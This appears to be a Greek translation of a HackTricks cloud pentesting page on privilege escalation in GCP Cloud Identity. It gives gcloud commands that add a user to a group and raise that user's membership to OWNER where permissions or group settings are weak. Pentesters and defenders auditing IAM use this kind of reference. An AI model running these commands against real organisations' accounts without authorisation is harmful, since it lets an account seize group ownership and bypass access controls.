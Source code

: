 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

Για περισσότερες πληροφορίες σχετικά με την υπηρεσία cloudidentity, ελέγξτε αυτή τη σελίδα:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### Προσθέστε τον εαυτό σας σε μια ομάδα

Εάν ο χρήστης σας έχει αρκετές άδειες ή η ομάδα είναι κακώς ρυθμισμένη, μπορεί να είναι σε θέση να γίνει μέλος μιας νέας ομάδας:
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### Τροποποίηση μέλους ομάδας

Εάν ο χρήστης σας έχει αρκετές άδειες ή η ομάδα είναι κακώς ρυθμισμένη, μπορεί να είναι σε θέση να γίνει ΙΔΙΟΚΤΗΤΗΣ μιας ομάδας της οποίας είναι μέλος:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
